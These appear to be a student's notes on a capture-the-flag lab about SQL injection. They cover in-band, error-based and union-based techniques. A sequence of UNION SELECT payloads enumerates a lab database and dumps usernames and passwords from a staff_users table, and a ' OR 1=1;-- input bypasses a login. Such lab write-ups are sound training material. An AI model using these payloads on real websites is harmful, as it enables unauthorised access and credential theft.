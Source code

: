 `https://website.thm/blog?id=1`

You can assume the query looks something like

`SELECT * from blog WHERE id=1 and private=0 LIMIT 1`

### Task 5 In-Band SQLi
Easiest type to detect and exploit; refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example injecting SQL on a webpage and then being able to extract data from the database to the same page.

**Error-based**
Most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database.

**Union-based**
Using the UNION operator alongside SELECT to return additional results to the page.

The key to discovering error-based SQL injection is to break the code's SQL query by trying certain characters until an error message is produced; most commonly single quotes or a quotation mark

**Practical**
Throwing in a `"` causes an error in the query. Then trying with UNION

```sql
1 UNION SELECT 1
1 UNION SELECT 1,2
1 UNION SELECT 1,2,3 -> the right amount of columns
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database() -> sqli_one db name
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one' -> returns (article,staff_users)
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users' -> id,password,username
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

The **group_concat()** gets the specified column (in this case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is **information_schema** database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. This query lists all the tables in the **sqli_one** table.

### Task 6 Blind SQLi - Authentication Bypass
Unlike In-band SQLi, in blind SQLi we can't see the output from the query we're trying to manipulate.

**Authentication Bypass**
One of the most straightforward Blind SQLi techniques is when bypassing authentication methods such as login forms.

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table.

Test out using in password field
`' OR 1=1;--`
